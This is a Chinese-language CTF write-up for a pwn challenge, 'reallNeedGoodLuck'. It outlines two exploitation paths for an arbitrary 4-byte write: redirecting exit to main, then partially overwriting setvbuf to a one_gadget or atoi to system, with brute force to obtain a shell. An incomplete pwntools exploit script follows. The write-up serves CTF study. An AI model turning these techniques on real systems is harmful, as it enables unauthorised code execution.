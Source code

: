 ```c
}
```
存在任意地址写4字节漏洞，和上一个题一样将setvbuf@got.plt后12位改为onegadget偏移，之后爆破12位，爆破长度仍然是16^3
## 利用方式

**利用方式1：爆破onegadget**

这个题和上个题目不同的是主函数没有return，有exit函数，那么怎么让他返回呢？这里还是通过漏洞将exit改成main函数地址，实现多次利用，然后再将setvbuf后三字节改成onegadget固定偏移，爆破3字节长度，获取shell。
步骤：
1. 修改exit为mian函数，使其可以返回
2. 修改setvbuf末12位为onegadget偏移
3. 爆破，调用setvbuf触发onegadget。

**利用方式2：爆破system**

题目提供了任意地址写4字节，利用方式和上面差不多，知识换用了爆破system，因为爆破system只用爆破1字节长度，也就是16^2,成功率很高。
步骤：

1. 修改exit为mian函数，使其可以返回
2. 修改atoi末12位为system偏移
3. 爆破，调用atoi，参数binsh来触发shell。

方式2比方式以成功率高了一个量级，基本手爆就出来了。
## exp1 blast onegadget
```python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
context.terminal = ["/usr/bin/tmux","sp","-h"]
#io = remote('127.0.0.1', 6010)
# libc = ELF('./libc-2.31.so')
# io = process(['./test', 'real'])
#io = process('./reallNeedGoodLuck.1')
#libc=ELF('/glibc/2.23/64/lib/libc-2.23.so')
elf=ELF('./reallNeedGoodLuck.1')

#p=process(['./1'],env={'LD_PRELOAD':'./libc-2.27_64.so'})

l64 = lambda      :u64(io.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
l32 = lambda      :u32(io.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
rl = lambda	a=False		: io.recvline(a)
ru = lambda a,b=True	: io.recvuntil(a,b)
rn = lambda x			: io.recvn(x)
sn = lambda x			: io.send(x)
sl = lambda x			: io.sendline(x)
sa = lambda a,b			: io.sendafter(a,b)
sla = lambda a,b		: io.sendlineafter(a,b)
irt = lambda			: io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s			: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data		: u32(data.ljust(4, b'\x00'))
uu64 = lambda data		: u64(data.ljust(8, b'\x00'))
ur64 = lambda data		: u64(data.rjust(8, b'\x00'))


exit_got=elf.got['exit']
read_got=elf.got['read']
setvbuf_got=elf.got['setvbuf']
def pwn():
    #io=remote('47.106.172.144',65003)
    ru('good')
    sn(p32(0x4011A9)) # main addr

```
